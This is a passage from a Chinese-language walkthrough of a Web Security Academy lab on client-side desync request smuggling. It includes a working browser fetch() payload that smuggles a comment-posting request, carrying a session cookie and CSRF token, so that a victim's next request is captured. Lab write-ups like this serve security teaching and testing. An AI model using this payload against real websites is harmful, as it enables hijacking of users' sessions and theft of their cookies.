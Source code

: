 [![](assets/1705301772-377add662e09655c95270adbd0e31a4a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183422-7b17578c-b2c8-1.png)  
随后打开一个单独的 Chrome 浏览器示例，转到漏洞利用服务器，打开浏览器开发人员工具，转到 Console 选项卡使用 fetch()API 复制上一节中的攻击，在这里我们有意触发 CORS 错误以阻止浏览器遵循重定向，然后使用 catch() 方法继续攻击序列，我们此时可以看到两个请求：

-   已触发 CORS 错误的主请求
-   对主页的请求收到 404 响应

证实了可以从浏览器触发去同步矢量

```plain
fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net', {
        method: 'POST',
        body: 'POST /en/post/comment HTTP/1.1\r\nHost: 0a40005204ca7973811de89500e000af.h1-web-security-academy.net\r\nCookie: session=IVyZ195O8xf57pxHj67NWTnINcMnLhx5; _lab_analytics=Ep2xqyavvsZdf4X8ozQb4i0y0HvPKRxQeJN9sIHk91JVUMoZBydIofsyqWL72BINYScmFaJnfLP1NaLgczuV1Deg5ighDljgshun8uVDCmNVXEWaYtSALPEfDLHnSesd2Q0yEYPBtj5SAEVXEXeF8s832NQFFArwAhwlwU8ETbp7luLXJe66IKsp9aBd69gsqtnMsIXGhOoZkqkJ9DZqebES82Vk2xetArPJLiZbS6j9TnBLgH5D6as1sTVQFQi0\r\nContent-Length: 300\r\nContent-Type: x-www-form-urlencoded\r\nConnection: keep-alive\r\n\r\ncsrf=oeSUFWMfMoMJbOyXez7fU3KDpGKjbYdU&postId=2&name=QWQQ&email=test123@163.com&website=http://www.baidu.com&comment=',
        mode: 'cors',
        credentials: 'include',
    }).catch(() => {
        fetch('https://0a40005204ca7973811de89500e000af.h1-web-security-academy.net/capture-me', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

[![](assets/1705301772-934dda1f5f3b81d3dfc3180b6f7d5cc0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114183521-9e44ceba-b2c8-1.png)
